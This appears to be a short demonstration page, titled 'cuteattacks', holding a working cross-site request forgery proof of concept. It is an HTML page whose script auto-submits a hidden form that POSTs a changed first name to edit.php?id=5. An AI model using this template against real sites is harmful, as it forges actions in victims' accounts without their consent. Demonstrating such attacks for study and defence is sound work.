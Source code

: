 # momopages
cuteattacks
<html>
  <body>
    <form action="edit.php?id=5" method="POST">
      <input type="hidden" name="first_name" value="Kennnnnnnny" />
    </form>
    <script>
      document.forms[0].submit();
    </script>
  </body>
</html>
<img src="http://www.allyouranime.net/wp-content/uploads/2018/06/The-Cat-Returns-r5.jpg">
